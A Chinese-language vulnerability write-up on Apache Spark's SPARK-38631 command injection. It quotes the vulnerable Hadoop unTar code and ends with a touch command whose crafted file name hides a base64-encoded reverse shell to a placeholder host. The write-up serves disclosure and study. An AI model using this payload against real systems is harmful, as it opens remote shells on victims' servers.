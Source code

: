 # 

# Apache Spark unTarUsingTar 命令注入漏洞 SPARK-38631

## 漏洞描述

Apache Spark 是一种用于大数据工作负载的分布式开源处理系统。它使用内存中缓存和优化的查询执行方式，可针对任何规模的数据进行快速分析查询。它提供使用Java、Scala、Python 和 R 语言的开发 API，支持跨多个工作负载重用代码—批处理、交互式查询、实时分析、机器学习和图形处理等。当Spark任务的文件名可控时，`Utils.unpack`采用命令拼接的形式对tar文件进行解压，存在任意命令注入的风险。这是源于Hadoop中unTar函数存在问题，在其执行shell命令之前未正确转义文件名，直接拼接命令导致任意命令注入。

## 漏洞影响

```
Apache Spark 3.1.2, 3.2.1, 3.3.0
```

## 漏洞复现

查看官方的修复补丁

![](./images/202205251624131.png)

![](./images/202205251624468.png)

官方修复针对.tar后缀的压缩包调用了新增的unTarUsingJava函数来进行处理，我们下载存在漏洞的版本看一下漏洞位置

```
hadoop-common-2.7.4.jar!/org/apache/hadoop/fs/FileUtil.class
```

![](./images/202205251624145.png)

可以看到漏洞主要出现在 Linux对文件的解压处理中

```
public static void unTar(File inFile, File untarDir) throws IOException {
        if (!untarDir.mkdirs() && !untarDir.isDirectory()) {
            throw new IOException("Mkdirs failed to create " + untarDir);
        } else {
            boolean gzipped = inFile.toString().endsWith("gz");
            if (Shell.WINDOWS) {
                unTarUsingJava(inFile, untarDir, gzipped);
            } else {
                unTarUsingTar(inFile, untarDir, gzipped);
            }

        }
    }
```

这里我们控制压缩tar文件的文件名就可以进行命令注入

```
private static void unTarUsingTar(File inFile, File untarDir, boolean gzipped) throws IOException {
        StringBuffer untarCommand = new StringBuffer();
        if (gzipped) {
            untarCommand.append(" gzip -dc '");
            untarCommand.append(makeShellPath(inFile));
            untarCommand.append("' | (");
        }

        untarCommand.append("cd '");
        untarCommand.append(makeShellPath(untarDir));
        untarCommand.append("' ; ");
        untarCommand.append("tar -xf ");
        if (gzipped) {
            untarCommand.append(" -)");
        } else {
            untarCommand.append(makeShellPath(inFile));
        }

        String[] shellCmd = new String[]{"bash", "-c", untarCommand.toString()};
        ShellCommandExecutor shexec = new ShellCommandExecutor(shellCmd);
        shexec.execute();
        int exitcode = shexec.getExitCode();
        if (exitcode != 0) {
            throw new IOException("Error untarring file " + inFile + ". Tar process exited with exit code " + exitcode);
        }
    }
```

创建Tar文件, 在使用 addArchive执行解压就可以注入恶意命令

```
touch '1\|{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC94eHgueHh4Lnh4eC54eHgvNjY2NiAwPiYx}|{base64,-d}|{bash,-i}\|1.tar'
```

![](./images/202205251625299.png)
